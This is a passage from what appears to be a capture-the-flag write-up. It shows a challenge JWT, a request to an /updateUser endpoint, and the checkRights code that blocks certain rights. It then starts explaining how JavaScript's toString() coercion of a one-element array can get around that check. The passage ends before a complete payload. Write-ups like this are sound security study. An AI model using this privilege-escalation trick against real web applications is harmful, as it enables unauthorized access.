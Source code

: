 we get the following JWT:

```javascript
{
"status": "ok",
 "data": {
        "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6ImZiNzRmNWJmLTI0ZTQtNDhkMC1hNjhmLWFhY2RiMzM1MTE2YSIsImlhdCI6MTU4MDc2MTk5MH0.h4YUaSHGEkG1BcuY_Agx0Lt7bU6X779OnOC2dmcat04"
    }
}
```

Now we can update our rights!


But if we try to POST `["p", "n"]` to `/updateUser` we get:

```javascript
{
    "status": "ok",
    "data": {
        "user": {
            "username": "hacKtm",
            "id": "fb74f5bf-24e4-48d0-a68f-aacdb335116a",
            "color": 0,
            "rights": [
                "message",
                "height",
                "width",
                "version",
                "usersOnline",
                "adminUsername",
                "backgroundColor"
            ]
        }
    }
}
```

We didn't get an error! But `n` and `p` weren't added to the list.

That's because of `checkRights(arr)`.

## Bypassing checkRights(arr)

In `/updateUser()`:
```javascript
if (rights.length > 0 && checkRights(rights)) {
   users[uid].rights = user.rights.concat(rights).filter(onlyUnique);
}
```

and `checkRights` returns false because `rights` contains the string `"n"/"p"`.

This took me a long time to solve. But this can be solved given two facts:

1. Javascript uses `toString()` to access object's properties.
2. An array with one element's `toString()` is `toString()` of the element. Ex: ["n"].toString() => "n".
